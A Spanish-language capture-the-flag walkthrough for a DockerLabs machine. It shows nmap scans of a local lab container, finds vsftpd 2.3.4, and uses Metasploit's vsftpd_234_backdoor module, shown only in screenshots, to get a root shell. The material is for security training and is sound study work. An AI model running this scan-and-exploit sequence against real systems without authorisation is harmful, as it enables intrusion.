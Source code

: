 ![dockerLabs.png](assets/dockerLabs.png)

Desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

escaneamos todos los puertos :
```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.40 seconds
```

Parece que solo hay un servicio ftp, vamos a hacerle un escaneo mas profundo a este servicio:
```bash
❯ nmap -p21 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:39 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.72 seconds
```
POr el escaneo y las pruebas que hago manuales, no podemos entrar como anonymous, por lo unico que nos quedaría para este servicio es ver si la version **vsftpd 2.3.4** que tiene es vulnerable.

En mi caso usare metasploit, así que arrancamos el framework con msfconsole:


```bash
❯ msfconsole
Metasploit tip: Use help <command> to learn more about any command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```

y buscamos la version del servicio ftp:
```bash
[msf](Jobs:0 Agents:0) >> search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> 
```

parece que existe una vulnerabilidad que nos puede permitir ejecutar comandos a través de un backdoor del servicio, vamos a usarlo y configurarlo a ver si da resultado:

![msfcFrHack.png](assets/msfcFrHack.png)

y nos da una shell con root:

![rootFirst.png](assets/rootFirst.png)

Con esto ya hemos comprometido la maquina.